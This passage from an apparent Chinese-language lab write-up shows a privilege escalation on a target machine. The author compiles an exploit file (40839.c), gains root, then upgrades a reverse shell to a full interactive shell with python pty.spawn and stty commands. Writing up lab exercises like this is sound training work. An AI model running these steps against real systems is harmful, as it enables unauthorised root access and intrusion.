 再更换一个：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347459.png" alt="image-20240131225054712" style="zoom:50%;" />

尝试使用：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347460.png" alt="image-20240131225339129" style="zoom:50%;" />

遇到了一些报错，尝试解决：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347461.png" alt="image-20240131225546188" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347462.png" alt="image-20240131225613846" style="zoom:33%;" />

尝试修改一下参数编译：

```shell
gcc -lpthread -lcrypt 40839.c
```

运行成功，获取root！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401312347463.png" alt="image-20240131225910889" style="zoom: 50%;" />

但是尝试`su firefart`的时候，出现了报错`standard in must be a tty`；参考这位师傅的[blog](https://www.cnblogs.com/sainet/p/15783539.html)

#### 使用 Python 升级到完全交互式 shell

查看一下是否有`python2/python3`:

```shell
python2 -V
Python 2.6.6
python3 -V
/bin/bash: line 7: python3: command not found
```

在靶机上输入以下命令

```python
python2 -c 'import pty;pty.spawn("/bin/bash")';
# export TERM = xterm
```

(我到这就可以顺利解决了，下面的是师傅写的，转载一下，提醒一下自己)

接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```shell
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

键入`ctrl-z`以将 shell 发送到后台。

设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作：

```shell
stty raw -echo;fg
```
